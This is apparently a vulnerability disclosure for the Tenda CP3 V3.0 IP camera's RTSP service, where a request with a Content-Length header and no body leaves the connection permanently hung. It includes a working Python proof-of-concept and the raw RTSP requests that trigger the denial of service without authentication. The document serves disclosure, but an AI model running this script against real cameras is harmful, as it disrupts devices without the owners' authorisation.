


# Information

**Vendor of the products:** Tenda

**Vendor's website:** https://www.tenda.com.cn/

**Reported by:** YanKang

**Affected products:** CP3 V3.0

**Affected firmware version:** V31.1.9.91

**Firmware download address:** https://www.tenda.com.cn/material/show/675687993704517

# Overview

A protocol robustness deficiency exists in the RTSP service of the Tenda CP3 V3.0 IP camera (firmware V31.1.9.91). The device fails to properly validate the `Content-Length` header field when processing RTSP requests. This issue has been confirmed to affect multiple RTSP methods, including but not limited to `DESCRIBE`,and `SETUP`. According to RFC 2326, these request methods should not carry a message body, and a conforming server should respond with `400 Bad Request` upon receiving such malformed requests. However, the device's RTSP parser does not perform this semantic-level validation and instead enters a persistent body-awaiting state based on the declared `Content-Length` value.

When any of the affected RTSP requests carries a `Content-Length` header but no body data is sent, the device waits indefinitely for the body to arrive. All subsequent request data on the same TCP connection is silently consumed as body content, rendering the connection permanently non-functional. The device never actively closes the affected TCP connection, resulting in a TCP resource leak. This behavior can be triggered without any authentication, representing an extremely low attack barrier (CWE-400 / CWE-404).

# POC

After running the PoC, the script sends a `DESCRIBE` request carrying a `Content-Length` header to the target camera without transmitting any body data. The device enters a persistent body-awaiting state, causing the current TCP connection to become completely non-functional. No authentication is required to trigger this condition. Note that the `DESCRIBE` method is used here as a representative example; the same behavior has been confirmed when the `Content-Length` header is present in other RTSP method requests such as `SETUP`.

```python
#!/usr/bin/env python3
"""
PoC for RTSP Content-Length Handling Robustness Deficiency
in Tenda CP3 V3.0 IP Camera (Firmware V31.1.9.91)

This proof-of-concept reproduces a protocol robustness deficiency by sending
a DESCRIBE request with a Content-Length header but no body. The device enters
a persistent body-awaiting state, rendering the TCP connection permanently
non-functional without actively closing it.

Note: The DESCRIBE method is used here as a representative example.
The same behavior has been confirmed when the Content-Length header is
present in other RTSP method requests such as SETUP.

Tested device:
  - Vendor  : Tenda
  - Model   : CP3 V3.0
  - Firmware: V31.1.9.91

Impact:
  - Affected TCP connection becomes permanently non-functional (DoS)
  - Device does not actively close the TCP connection (TCP resource leak)
  - No authentication required to trigger

This code is for authorized security research purposes only.
"""

import socket
import time

CAMERA_IP = "TARGET_IP"    # Replace with target device IP
RTSP_PORT = 554
RTSP_URI  = f"rtsp://{CAMERA_IP}:{RTSP_PORT}/tenda"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((CAMERA_IP, RTSP_PORT))
sock.settimeout(10)

# 1. OPTIONS (normal)
options_req = (
    f"OPTIONS {RTSP_URI} RTSP/1.0\r\n"
    f"CSeq: 2\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n\r\n"
)
sock.send(options_req.encode())
time.sleep(1)
try:
    options_res = sock.recv(4096).decode(errors="ignore")
    print("OPTIONS Response:\n", options_res)
except socket.timeout:
    print("[!] No response to OPTIONS")
    sock.close()
    exit(1)

# 2. DESCRIBE with Content-Length but no body (malformed)
# Any Content-Length value in range 1~4294967295 triggers the issue
describe_req = (
    f"DESCRIBE {RTSP_URI} RTSP/1.0\r\n"
    f"CSeq: 3\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Accept: application/sdp\r\n"
    f"Content-Length: 1000\r\n\r\n"
    # No body is sent; device will wait indefinitely
)
sock.send(describe_req.encode())
time.sleep(3)

try:
    describe_res = sock.recv(4096).decode(errors="ignore")
    if describe_res:
        print("DESCRIBE Response (unexpected):\n", describe_res)
    else:
        print("[*] No response to DESCRIBE — device is in body-awaiting state.")
except socket.timeout:
    print("[*] DESCRIBE timed out — device entered persistent body-awaiting state.")
    print("[*] The TCP connection is now permanently non-functional.")
    print("[*] The device will NOT actively close the connection.")

# 3. Attempt a follow-up SETUP to confirm the connection is non-functional
setup_req = (
    f"SETUP {RTSP_URI}/trackID=1 RTSP/1.0\r\n"
    f"CSeq: 4\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
)
sock.send(setup_req.encode())
time.sleep(3)

try:
    setup_res = sock.recv(4096).decode(errors="ignore")
    if setup_res:
        print("SETUP Response (unexpected):\n", setup_res)
    else:
        print("[*] No response to SETUP — confirmed connection permanently non-functional.")
except socket.timeout:
    print("[*] SETUP timed out — connection confirmed permanently non-functional.")

print("[*] PoC finished.")
sock.close()
```

Below is an example of the complete RTSP request sequence from our verification process.

```
OPTIONS rtsp://{IP}:554/tenda RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)

DESCRIBE rtsp://{IP}:554/tenda RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp
Content-Length: 1000
                        ← No body is sent; connection remains open
```

**Device actual response behavior:**

```
RTSP/1.0 200 OK          ← OPTIONS responded normally
CSeq: 2
...

             ← No response to DESCRIBE
             ← Device enters persistent body-awaiting state
             ← All subsequent request data consumed as body content
             ← TCP connection remains open; device does not actively close it
```

**Notes:**

- Replace `{IP}` with the target device IP address
- Any `Content-Length` value in the range 1–4294967295 triggers this behavior
- No authentication is required to trigger this vulnerability
- The `DESCRIBE` method is used as a representative example; the same behavior has been confirmed with other RTSP methods including `SETUP` and `PLAY`
- Only the affected TCP connection is impacted; other client connections and established video streams are unaffected

# Attack Demo

The vulnerability can be triggered by sending a single malformed RTSP request without any prior authentication. By including a `Content-Length` header but sending no body data, the device's RTSP parser enters a persistent body-awaiting state. All subsequent data sent on the connection is silently consumed as body content, and the device never actively closes the TCP connection, resulting in a TCP resource leak and a connection-level denial-of-service condition. This behavior has been confirmed across multiple RTSP methods including `DESCRIBE`,and `SETUP`.






As the target device firmware is closed-source and does not expose debugging symbols or interfaces, source-level analysis is not available. A complete demonstration video is provided to show the reliable reproduction of this condition.

A complete proof-of-concept script and a short demonstration video are provided in this repository.

https://github.com/izxnfirh8148/CVE_REQUESTS_references/releases/tag/Tenda_CP3V3.0_1th


# Supplement

This vulnerability allows an unauthenticated attacker to trigger a connection-level denial-of-service (DoS) condition on the affected device. By sending a single malformed RTSP request with a `Content-Length` header but no body, the device's RTSP parser enters a persistent body-awaiting state. The affected TCP connection becomes permanently non-functional, and the device does not actively release it, resulting in a TCP resource leak. The absence of any authentication requirement significantly lowers the practical barrier to exploitation. The issue has been confirmed to affect multiple RTSP methods including `DESCRIBE`, and`SETUP`,  indicating a systemic lack of `Content-Length` validation in the device's RTSP request parser.

The vulnerability is classified under **CWE-400** (Uncontrolled Resource Consumption) and **CWE-404** (Improper Resource Shutdown or Release).
